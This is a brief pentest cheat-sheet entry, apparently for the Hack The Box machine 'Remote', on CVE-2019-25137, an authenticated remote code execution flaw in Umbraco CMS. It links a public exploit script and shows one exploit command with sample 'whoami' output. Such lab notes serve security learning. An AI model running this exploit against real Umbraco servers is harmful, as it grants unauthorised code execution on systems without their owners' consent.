

# CVE-2019-25137 - Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

Umbraco CMS 4.11.8 through 7.15.10, and 7.12.4, allows Remote Code Execution by authenticated administrators via msxsl:script in an xsltSelection to developer/Xslt/xsltVisualize.aspx.

## Enumeration



## Exploitation

Download and run the [exploit](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py)

```bash
$ python3 exploit.py -u <user> -p <pwd> -i http://$TARGET/ -c whoami
iis apppool\defaultapppool
```

## Links

- [NVD - CVE-2019-25137](https://nvd.nist.gov/vuln/detail/CVE-2019-25137)
- [GitHub - noraj - Umbraco-RCE](https://github.com/noraj/Umbraco-RCE)
- [HTB Machine Remote](https://app.hackthebox.com/machines/234)
